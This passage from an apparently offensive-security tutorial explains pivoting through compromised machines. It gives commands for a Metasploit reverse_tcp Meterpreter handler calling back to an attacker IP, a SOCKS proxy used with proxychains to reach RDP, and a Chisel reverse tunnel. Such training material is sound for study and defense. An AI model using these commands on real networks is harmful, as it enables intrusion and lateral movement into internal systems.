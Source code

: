 
### **2. Reverse Proxying with Metasploit, Chisel, and Sliver**

Attackers often need to access internal resources that aren't directly accessible from outside the network. Reverse proxies allow them to tunnel connections through compromised systems.

#### **Metasploit**

**Setting Up a Reverse RDP Proxy with Metasploit:**

1. **Establish a Meterpreter Session:**
   After compromising a machine, open a Meterpreter session.
   ```bash
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST <attacker_ip>
   set LPORT <attacker_port>
   exploit
   ```

2. **Create a Reverse Proxy:**
   Use the `auxiliary/server/socks_proxy` module to create a SOCKS proxy through the compromised machine.
   ```bash
   use auxiliary/server/socks_proxy
   set SRVHOST 127.0.0.1
   set SRVPORT 1080
   run
   ```

3. **Configure ProxyChains:**
   Edit the `proxychains.conf` file to include the Metasploit proxy.
   ```bash
   socks4 127.0.0.1 1080
   ```

4. **Connect to RDP via ProxyChains:**
   Use `proxychains` to route your RDP connection through the SOCKS proxy.
   ```bash
   proxychains mstsc /v:<target_ip>
   ```

#### **Chisel**

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH.

**Setting Up Chisel for Reverse Proxying:**

1. **On the Attacker Machine:**
   Start Chisel in server mode.
   ```bash
   ./chisel server --reverse --port 8080
   ```

2. **On the Compromised Machine:**
   Download and run Chisel in client mode.
   ```bash
   ./chisel client <attacker_ip>:8080 R:3389:<target_ip>:3389
   ```
